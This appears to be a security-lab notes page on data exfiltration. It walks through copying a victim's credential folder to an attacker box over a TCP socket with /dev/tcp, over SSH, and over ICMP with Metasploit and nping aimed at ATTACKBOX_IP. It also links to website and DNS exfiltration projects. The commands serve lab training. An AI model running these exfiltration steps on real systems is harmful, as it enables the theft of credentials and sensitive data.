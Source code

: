 ```yaml
---
layout: notes
permalink: /notes/network/exfil/
title: Data Exfiltration Techniques
---
```


# Data Exfiltration Techniques
Data Exfiltration is the process of taking an unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside.

## Scenario:
```
JumpBox -> Victim1 (where files located) -> JumpBox
Filename on Victim1: /home/victim1/credentials/admin.txt
```
## via TCP Socket
![TCP](/assets/images/TCP.png)
```bash
#Prepare listener
thm@jump-box$ nc -lvp 8080 > /tmp/secrets.data

#Connect to Victim from JumpBox and find files to be exfiltrated
thm@jump-box$ ssh thm@victim1.thm.com
thm@victim1$ cat /home/victim1/credentials/admin.txt

#Exfiltrate data over TCP from victim machine,  make sure the listener is running on the JumpBox.
thm@victim1:$ tar zcf - /home/victim1/credentials/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

#Confirm files transfered successfully
thm@jump-box$ ls -l /tmp/

#Restore the tar file
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=secrets.data |base64 -d > creds.tar
thm@jump-box:/tmp/$ tar xvf creds.tar
thm@jump-box:/tmp/$ cat credentials/admin.txt
```

## via SSH
![SSH](/assets/images/SSH.png)
```bash
#Check SSH service on JumpBox
thm@jump-box$ systemctl status ssh (enabled)

#Connect to Victim and send the files
thm@jump-box$ ssh thm@victim1.thm.com
thm@victim1:$ tar cf - /home/victim1/credentials/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

#Confirm the files transfered successfully
thm@jump-box$ ls -l /tmp
```

## via ICMP
![ICMP](/assets/images/ICMP.png)
```bash
#Configure Metasploit
msfconsole -q
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
msf5 auxiliary(server/icmp_exfil) > run

#Send BOF trigger from the victim machine, to start Metasploit writing to the disk
thm@jump-box$ ssh thm@victim1.thm.com
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"

#Start sending data
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```

## via Websites
[Checkout the LOTS Project](https://lots-project.com/)

## DNS Exfiltration
[https://github.com/kleosdc/dns-exfil-infil](https://github.com/kleosdc/dns-exfil-infil)
